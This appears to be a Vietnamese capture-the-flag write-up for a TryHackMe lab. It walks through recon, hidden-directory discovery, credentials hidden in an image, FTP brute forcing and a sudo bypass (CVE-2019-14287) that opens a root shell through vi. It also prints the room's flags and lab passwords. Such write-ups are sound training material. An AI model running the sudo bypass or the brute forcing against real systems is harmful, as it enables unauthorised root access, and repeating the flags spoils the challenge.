




# __Year of the Rabbit__

Room at https://tryhackme.com/room/yearoftherabbit

---

??? question "List of the questions solved"

    Question: What is the user flag?

    > `THM{1107174691af9ff3681d2b5bdb5740b1589bae53}`

    Question: What is the root flag?

    > `THM{8d6f163a87a1c80de27a4fd61aef0f3a0ecf9161}`

## __Pentest scenario__

Host: 10.10.25.94

### __Reconnaissance__

Đầu tiên, ta sẽ scan port và directory của website.

```ps1 title="Nmap scan NULL"
PORT   STATE         SERVICE
21/tcp open|filtered ftp
22/tcp open|filtered ssh
80/tcp open|filtered http
```

Từ scan port, ta thấy website có mở port 21 với service ftp. Một tip nhỏ để biết có login ẩn danh được hay không là dùng curl để xử lý.

```ps1 title="Curl"
└─$ curl ftp://10.10.25.94 -v   
*   Trying 10.10.25.94:21...
* Connected to 10.10.25.94 (10.10.25.94) port 21 (#0)
< 220 (vsFTPd 3.0.2)
> USER anonymous
< 331 Please specify the password.
> PASS ftp@example.com
< 530 Login incorrect.
* Access denied: 530
* Closing connection 0
curl: (67) Access denied: 530
```

Từ kết quả của curl, ta thấy không login được với user ẩn danh.

Tiếp tục scan dir bằng gobuster, ta thấy website có trang `http://10.10.25.94/assets/`. Với file RickRolled thì chúng ta hiểu nó là gì rồi ::). Và file style.css ta thấy một hint khá hữu ích về trang web ẩn `../sup3r_s3cr3t_fl4g.php`


Vào website thì ta phát hiện nó chặn js 



Một tip nhỏ nữa, ta cũng sẽ dùng curl để xem xét gói tin, thay vì tắt js. (Bạn đọc thì nên tắt js xem website nó thể hiện gì nhen :3)

```ps1 title="Curl"
└─$ curl http://10.10.25.94/sup3r_s3cr3t_fl4g.php -v 
*   Trying 10.10.25.94:80...
* Connected to 10.10.25.94 (10.10.25.94) port 80 (#0)
> GET /sup3r_s3cr3t_fl4g.php HTTP/1.1
> Host: 10.10.25.94
> User-Agent: curl/7.88.1
> Accept: */*
> 
< HTTP/1.1 302 Found
< Date: Fri, 01 Sep 2023 16:31:02 GMT
< Server: Apache/2.4.10 (Debian)
< Location: intermediary.php?hidden_directory=/WExYY2Cv-qU
< Content-Length: 0
< Content-Type: text/html; charset=UTF-8
< 
* Connection #0 to host 10.10.25.94 left intact
```

Ta thấy nó có 1 folder ẩn là `WExYY2Cv-qU`. Cứ curl tiếp

```ps1 title="Curl"
└─$ curl http://10.10.25.94/WExYY2Cv-qU/ -v                    
*   Trying 10.10.25.94:80...
* Connected to 10.10.25.94 (10.10.25.94) port 80 (#0)
> GET /WExYY2Cv-qU/ HTTP/1.1
> Host: 10.10.25.94
> User-Agent: curl/7.88.1
> Accept: */*
> 
< HTTP/1.1 200 OK
< Date: Fri, 01 Sep 2023 16:34:27 GMT
< Server: Apache/2.4.10 (Debian)
< Vary: Accept-Encoding
< Content-Length: 954
< Content-Type: text/html;charset=UTF-8
< 
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<html>
 <head>
  <title>Index of /WExYY2Cv-qU</title>
 </head>
 <body>
<h1>Index of /WExYY2Cv-qU</h1>
  <table>
   <tr><th valign="top"></th><th><a href="?C=N;O=D">Name</a></th><th><a href="?C=M;O=A">Last modified</a></th><th><a href="?C=S;O=A">Size</a></th><th><a href="?C=D;O=A">Description</a></th></tr>
   <tr><th colspan="5"><hr></th></tr>
<tr><td valign="top"></td><td><a href="/">Parent Directory</a></td><td>&nbsp;</td><td align="right">  - </td><td>&nbsp;</td></tr>
<tr><td valign="top"></td><td><a href="Hot_Babe.png">Hot_Babe.png</a></td><td align="right">2020-01-23 00:34  </td><td align="right">464K</td><td>&nbsp;</td></tr>
   <tr><th colspan="5"><hr></th></tr>
</table>
<address>Apache/2.4.10 (Debian) Server at 10.10.25.94 Port 80</address>
</body></html>
* Connection #0 to host 10.10.25.94 left intact
```

Ta nhận được file `Hot_Babe.png`. Được rồi ta sẽ get file về.

Với strings, ta thấy rằng đoạn sau của file ảnh hiển thị thông tin username và password cho việc login bằng ftp



Ta sẽ dùng hydra để brute force password



??? note "No...."
    user: ftpuser

    pass: 5iez1wGXKfPKQ

Login ftp thôi, ta sẽ được thêm 1 đoạn text mới

```
+++++ ++++[ ->+++ +++++ +<]>+ +++.< +++++ [->++ +++<] >++++ +.<++ +[->-
--<]> ----- .<+++ [->++ +<]>+ +++.< +++++ ++[-> ----- --<]> ----- --.<+
++++[ ->--- --<]> -.<++ +++++ +[->+ +++++ ++<]> +++++ .++++ +++.- --.<+
+++++ +++[- >---- ----- <]>-- ----- ----. ---.< +++++ +++[- >++++ ++++<
]>+++ +++.< ++++[ ->+++ +<]>+ .<+++ +[->+ +++<] >++.. ++++. ----- ---.+
++.<+ ++[-> ---<] >---- -.<++ ++++[ ->--- ---<] >---- --.<+ ++++[ ->---
--<]> -.<++ ++++[ ->+++ +++<] >.<++ +[->+ ++<]> +++++ +.<++ +++[- >++++
+<]>+ +++.< +++++ +[->- ----- <]>-- ----- -.<++ ++++[ ->+++ +++<] >+.<+
++++[ ->--- --<]> ---.< +++++ [->-- ---<] >---. <++++ ++++[ ->+++ +++++
<]>++ ++++. <++++ +++[- >---- ---<] >---- -.+++ +.<++ +++++ [->++ +++++
<]>+. <+++[ ->--- <]>-- ---.- ----. <
```

Đây là thông điệp được mã hóa bằng Brainfuck. Dùng các website decode trên mạng ta được thông tin login ssh

- User: eli
- Password: DSpDiM1wAEwid

### __Init Access__

Sau khi login ssh ta thấy được hint cũng khá có ý nghĩa



Hint nói rằng có một file s3cr3t nào đó, tìm thông tin file bằng `find`

```ps1
Your password is awful, Gwendoline. 
It should be at least 60 characters long! Not just MniVCQVhQHUNI
Honestly!

Yours sincerely
   -Root
```

> password for user gwendoline is MniVCQVhQHUNI

Tiếp tục login với user gwendoline...

```ps1 title="Sudo -l"
gwendoline@year-of-the-rabbit:~$ sudo -l
Matching Defaults entries for gwendoline on year-of-the-rabbit:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User gwendoline may run the following commands on year-of-the-rabbit:
    (ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt
```

Searchsploit ta thấy kết quả đây là CVE-2019-14287

### __Privilege Escalation__

Dựa và mô tả của CVE-2019-14287 như trên, ta dễ dàng leo quyền root

> sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt
>
> :!/bin/sh

## __What we learned__

1. Disable Javascript
2. Brainfuck
3. CVE-2019-14287
